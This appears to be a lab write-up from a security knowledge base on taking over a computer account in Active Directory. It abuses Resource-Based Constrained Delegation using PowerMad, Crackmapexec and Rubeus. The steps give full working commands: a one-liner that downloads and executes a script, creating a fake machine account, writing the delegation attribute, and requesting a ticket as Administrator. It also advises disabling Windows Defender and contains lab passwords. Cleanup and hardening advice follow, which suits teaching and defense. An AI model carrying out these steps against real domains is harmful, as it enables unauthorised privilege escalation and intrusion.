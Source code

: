 # Computeraccount Takeover

## Configuring

### Prerequisite

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

### Configuring

Nothing need to be configured to abuse this since we set the GenericAll permissions during the "Owns" section. If you would like to configure this it can be configured the same way as we configured "Write Owner".

## Attacking

### How it works

Is you have GenericAll or GenericWrite rights to a computer object you can write to the attribute `msds-AllowedToActOnBehalfOfOtherIdentity`. If you control this attribute you can impersonate and authenticate as any domain user to the computer. Resulting in getting access to the computer as long as you can impersonate a user that has access too it. Users with the flag "This account is senstitive and cannot be delegated" or members of the "Protected Users Group" can't be impersonated.

### Tools

* [PowerMad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)

### Executing the attack

#### Prereqesuite

* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity

#### Executing the attack

1. It is expected that the GenericAll permissions during the ACL abuses "Write Owner" and "Owns" are set for the `sa_sql` user. This attack will continue from there:

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

2\. First we will check that the target doesn't have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute set.

```
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 Data01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](<../../../../.gitbook/assets/image (18).png>)

The attribute haven't been set yet.

3\. Add the following to the `/etc/hosts` file on Kali otherwise the Crackmapexec command will fail:

```
10.0.0.100 secure.local
10.0.0.100 dc03
10.0.0.100 dc03.secure.local
```

4\. Check if we can add computers to the domain since its a requirement for the attack. We can get the machine account qouta from the domain with Crackmapexec:

```
crackmapexec ldap 10.0.0.100 -u sa_sql -p Iloveyou2 -M MAQ
```

![](<../../../../.gitbook/assets/image (48).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

5\. Create a machine account with the name `FAKE01` and password `123456` with PowerMad:

```
iex (iwr http://192.168.248.2:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -Domain secure.local -Credential $creds -DomainController 10.0.0.100 -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (67) (1).png>)

6\. Get the SID of the computerobject we created:

```
Get-DomainComputer fake01 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../../.gitbook/assets/image (55).png>)

7\. Now we need to create the raw security descriptor which we then will write to the attribute:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1498997062-1091976085-892328878-1108)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

{% hint style="info" %}
Make sure you changed the SID since it can differ in your lab.
{% endhint %}

![](<../../../../.gitbook/assets/image (49).png>)

8\. Now we can write as `sa_sql` to the `msds-allowedtoactonbehalfofotheridentity` attribute of the computerobject `DATA01`:

```
Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 | Set-DomainObject -Domain secure.local -Credential $creds -Server 10.0.0.100 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../../../.gitbook/assets/image (66).png>)

9\. Seems like it worked, now we can check the value of the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute by saving it in a variable and doing some powershell confu to decrypt it:

```
$RawBytes = Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 <SID>
```

![](<../../../../.gitbook/assets/image (52).png>)

10\. `FAKE01` can impersonate any user now to `DATA01`. To do this we first need to calculate the NTLM hash for the `FAKE01` password, we can do this with Rubeus.

```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:secure.local
```

![](<../../../../.gitbook/assets/image (72).png>)

{% hint style="info" %}
Temporarily disable Windows Defender if it gets flagged by it.
{% endhint %}

11\. The next step is to run Rubeus to impersonate the `Administrator` user using the `FAKE01` Computeraccount. Abusing Resource Based Constrained Delegation. We will request a CIFS ticket so we can list the C disk.

```
.\Rubeus.exe s4u /domain:secure.local /dc:10.0.0.100 /user:fake01 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:CIFS/data01.secure.local /ptt
```

![](<../../../../.gitbook/assets/image (33).png>)

![](<../../../../.gitbook/assets/image (59).png>)

12\. We got a CIFS ticket as `Administrator` for `data01.secure.local`, now we can try to list the C disk.

![](<../../../../.gitbook/assets/image (61).png>)

### Cleanup

1. Login to `DC03` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `DATA01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity data01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}
